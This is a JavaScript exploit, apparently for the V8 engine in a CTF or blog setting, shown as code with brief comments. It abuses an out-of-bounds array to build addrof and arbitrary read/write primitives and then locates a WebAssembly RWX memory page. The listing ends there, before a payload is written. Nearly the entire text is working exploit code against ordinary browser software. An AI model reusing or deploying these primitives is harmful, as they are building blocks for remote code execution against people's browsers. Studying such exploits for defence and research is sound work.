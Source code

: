 ```
oob = [1.1, 1.1, 1.1, 1.1];
float_arr = [2.1, 2.2, 2.3, 2.4];
obj_arr = [`{``}`].slice();
// change the arr length
f(oob, 0);
print("[+] LENGTH : " + oob.length);
//just for float-&gt;Int or Int-&gt;float
var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);
function ftoi(val) `{`
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) &lt;&lt; 32n);
`}`
function itof(val) `{`
    u64_buf[0] = Number(val &amp; 0xffffffffn);
    u64_buf[1] = Number(val &gt;&gt; 32n);
    return f64_buf[0];
`}`
function hex(b) `{`
    return ('0x' + b.toString(16));
`}`
tmp = (ftoi(oob[14])) //we get the offset by debug
float_map = tmp &gt;&gt; 32n // float map
//just suitable for my test, you'd better check localy,
//and this value contain the free 32bit val, in order restore it, as we write total 64bit
float_map_low = tmp &amp; 0xffffffffn tmp = (ftoi(oob[25]));
obj_map_high = tmp &gt;&gt; 32n;
obj_map = tmp &amp; 0xffffffffn; // obj map
print('[+] float map : ' + hex(float_map));
print('[+] obj map : ' + hex(obj_map));
//the offset 25 is obj_map_addr
function addrof(obj) `{`
    obj_arr[0] = obj;
    oob[25] = itof((obj_map_high &lt;&lt; 32n) | float_map);
    let addr = obj_arr[0];
    oob[25] = itof((obj_map_high &lt;&lt; 32n) | obj_map);
    return ftoi(addr) &amp; 0xffffffffn;
`}`
//we chenge elements ptr in order to arb_r/w, so we need store other 32bit like before
elements = ftoi(oob[15]);
// print("[+] elements = "+hex(elements));
elements_low = elements &amp; 0xffffffffn
// print("[+] elements_low = "+hex(elements_low));
function aar(addr) `{`
    oob[15] = itof((addr - 0x8n &lt;&lt; 32n) | elements_low);
    return ftoi(float_arr[0]);
`}`
function aaw(addr, val) `{`
    oob[15] = itof((addr - 0x8n &lt;&lt; 32n) | elements_low);
    float_arr[0] = itof(val);
`}`
var wasm_code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;
var wasm_i_addr = addrof(wasm_instance);
print("[+] the wasm_addr : " + hex(wasm_i_addr));
var rwx_addr = aar((wasm_i_addr + 0x68n));
```